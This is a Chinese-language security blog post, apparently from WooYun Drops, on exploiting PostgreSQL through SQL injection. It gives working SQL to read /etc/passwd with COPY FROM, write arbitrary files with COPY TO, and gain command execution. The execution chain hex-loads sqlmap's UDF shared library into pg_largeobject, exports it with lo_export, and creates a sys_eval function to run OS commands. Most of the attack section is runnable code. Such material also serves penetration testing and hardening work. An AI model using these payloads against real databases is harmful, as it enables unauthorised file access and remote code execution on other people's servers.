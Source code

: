 # PostgreSQL的那点事儿

今天无意发现了个PostgreSQL环境，线上学习了下，一般的数据注射（读写数据库）差异不大，不做讨论，个人比较关心PostgreSQL的文件读取和命令执行方面。

### 0x00 文件读取/写入

* * *

PostgreSQL 8.1 以后提供了一组现成的文件操作函数

```
pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file()

```

用这些就可以胡作非为了？你错了。。。

可以用这个函数直接读取/etc/passwd？实际情况下测试并未成功，因为pg_xxx这个adminpack将权限限制在了./postgresql/data下面。

#### a）比如列目录

![2013070916495021606.png](http://drops.javaweb.org/uploads/images/434ea2052b00ecb550bcdb6e01c34526fe4ab1db.jpg)

#### b）读取权限允许的文件

![2013070916501626793.png](http://drops.javaweb.org/uploads/images/394da8bb42d4bcfeeac15f3db64c3490ec9fc766.jpg)

还有个写文件函数测试并未成功，而且只能像data下写也是满足不了需求的。

#### c）比较可行的文件读取方案

![2013070916503429269.png](http://drops.javaweb.org/uploads/images/d31ec6226adc5aea907d27cc2fadff7b2a7b14e1.jpg)

![2013070916510067232.png](http://drops.javaweb.org/uploads/images/147e6707af1e3306adb68291f99174905aa2f38f.jpg)

```
drop table wooyun;
CREATE TABLE wooyun(t TEXT);
COPY wooyun FROM '/etc/passwd';
SELECT * FROM wooyun limit 1 offset 0; 

```

利用注射修改偏移值很快就可以遍历出来了，但是还是有点寒碜，直接读出全部数据

```
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
COPY wooyun(t) FROM '/etc/passwd';
SELECT * FROM wooyun;

```

![2013070916512953973.png](http://drops.javaweb.org/uploads/images/99202a69bfc7b6dc39d54c3e60d7f096dc09b41e.jpg)

#### d）写入文件

```
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
INSERT INTO wooyun(t) VALUES ('hello wooyun');
COPY wooyun(t) TO '/tmp/wooyun';

```

![2013070916514499642.png](http://drops.javaweb.org/uploads/images/8d742c4c1896bd55ee7b54ad8e90ea88917b469b.jpg)

读一下看看是否存在

![2013070916515914176.png](http://drops.javaweb.org/uploads/images/f1a2e9e2911b9f40031492e4a7f7c0e116ee22b3.jpg)  
Bingo~

### 0x01 命令执行

```
enter code here

```

这里大概有三种方式

#### a）利用 libc 中的 system() 函数

很多文件会让我们添加一个到libc库的自定义功能函数

```
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; 

```

但是返回错误

```
Error : ERROR:  incompatible library "/lib64/libc.so.6": missing magic block  
HINT:  Extension libraries are required to use the PG\_MODULE\_MAGIC macro.

```

这是因为当PostgreSQL加载外部动态库的时候，会检查MAGIC DATA，如果没有这个函数（Pg_magic_func），PostgreSQL认为这个动态库不是PostgreSQL可以使用的动态库。具体逻辑请看 src/backend/utils/fmgr/dfmgr.c 中定义的 internal_load_library 函数源代码。

这样一来就等同于建立了一个“白名单”，系统自带的库默认我不再允许动态加载，所以此路不通（也许低版本走的通，但我手里这个不行）。

给一个 Pg_magic_func 代码样例：

```
extern PGDLLEXPORT const Pg_magic_struct * Pg_magic_func(void);
const Pg_magic_struct * 
Pg_magic_func(void)
{
    static const Pg_magic_struct Pg_magic_data = PG_MODULE_MAGIC_DATA;
    return &Pg_magic_data;
} 

```

#### b）利用Perl/Python脚本语言功能

在zone上看过一帖，http://zone.wooyun.org/content/1591，很纳闷为什么这样定义函数就可以执行系统命令，plperlu又是啥，经过资料的挖掘，发现是PostgreSQL自带的一种程序语言支持。

具体可见这里（[http://www.postgresql.org/docs/8.3/static/xplang.html](http://www.postgresql.org/docs/8.3/static/xplang.html)）。

大概意思就是PostgreSQL允许用除了SQL和C的其他语言来编写函数，但这个很悲剧啊，我的环境没有安装PostgreSQL的Python和Perl支持，待我弄个环境在来实现下过程。

#### c）利用C语言自定义函数

Perl、Python都能在PostgreSQL自定义了更不用说C了。

这个在sqlmap的udf目录下有现成的，而且还是根据版本加了Pg_magic_func函数的，可以加载。。。牛鞭！

```
FengGou:8.4 $ pwd
/Users/FengGou/sqlmap/udf/postgresql/linux/64/8.4
FengGou:8.4 $ ls
lib_postgresqludf_sys.so

```

将sqlmap的so文件转为16进制的代码

```
7F454C4602010100000000000000000003003E0001000000C00C0000000000004000000000000000A0170000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000008413000000000000841300000000000000002000000000000100000006000000881300000000000088132000000000008813200000000000A802000000000000B00200000000000000002000000000000200000006000000B013000000000000B013200000000000B01... ...

```

老他么长的一段，怎么还原成二进制的so库文件呢？

这里感谢 @瞌睡龙 提供的Tips，这里用到了PostgreSQL的pg_largeobject“大对象数据”，官方原文：

```
pg_largeobject 表保存那些标记着"大对象"的数据。
一个大对象是使用其创建时分配的 OID 标识的。 
每个大对象都分解成足够小的小段或者"页面"以便以行的形式存储在 pg_largeobject 里。 
每页的数据定义为LOBLKSIZE(目前是BLCKSZ/4，或者通常是 2K 字节)。

```

a）查看PostgreSQL目录

```
SELECT setting FROM pg_settings WHERE name='data_directory'; 

```

b）查询id

```
select lo_creat(-1);

```

oid为当前对象大数据的标识符，我们要利用这个存储UDF文件内容。

c）oid与上面保持一致

```
delete from pg_largeobject where loid=18412;

```

等于变相清空"页面"，不要干扰库的生成

d）把16进制的so文件塞进去

```
insert into pg_largeobject (loid,pageno,data) values(18412, 0, decode('7F454CXXXXXXXXX000', 'hex'));

```

e）利用PostgreSQL自带函数将大型对象导出到文件

```
SELECT lo_export(18412, 'cmd.so'); 

```

f）建立UDF

```
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;

```

g）调用这个UDF

```
select sys_eval('id'); 

```

![2013070916522426778.jpg](http://drops.javaweb.org/uploads/images/37792dbd9ccda5bb8a4e52007dace0ebef1c23db.jpg)

也许服务器没装PostgreSQL的Perl、Python支持，但是C库是通用的。

参考：  
[1](http://drops.javaweb.org/uploads/images/434ea2052b00ecb550bcdb6e01c34526fe4ab1db.jpg)PostgreSQL SQL Injection Cheat Sheet  
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet  
[2](http://drops.javaweb.org/uploads/images/394da8bb42d4bcfeeac15f3db64c3490ec9fc766.jpg)OWASP Backend Security Project Testing PostgreSQL  
https://www.owasp.org/index.php/OWASP_Backend_Security_Project_Testing_PostgreSQL  
[3](http://drops.javaweb.org/uploads/images/d31ec6226adc5aea907d27cc2fadff7b2a7b14e1.jpg)PostGreSQL注入学习(续篇)  
http://www.hackol.com/news/201007270731289820885.shtml  
[4](http://drops.javaweb.org/uploads/images/147e6707af1e3306adb68291f99174905aa2f38f.jpg)PostgreSQL Adminpack  
http://www.postgresql.org/docs/8.4/static/adminpack.html  
[5](http://drops.javaweb.org/uploads/images/99202a69bfc7b6dc39d54c3e60d7f096dc09b41e.jpg)PostgreSQL 外部动态连接库魔法块的使用  
http://my.oschina.net/quanzl/blog/136907  
[6](http://drops.javaweb.org/uploads/images/8d742c4c1896bd55ee7b54ad8e90ea88917b469b.jpg)Chapter 37. Procedural Languages  
http://www.postgresql.org/docs/8.3/static/xplang.html  
[7](http://drops.javaweb.org/uploads/images/f1a2e9e2911b9f40031492e4a7f7c0e116ee22b3.jpg)postgresql "初级"注入大法  
http://zone.wooyun.org/content/1591  
[8](http://www.postgresql.org/docs/8.3/static/xplang.html)pg_largeobject  
http://www.php100.com/manual/PostgreSQL8/catalog-pg-largeobject.html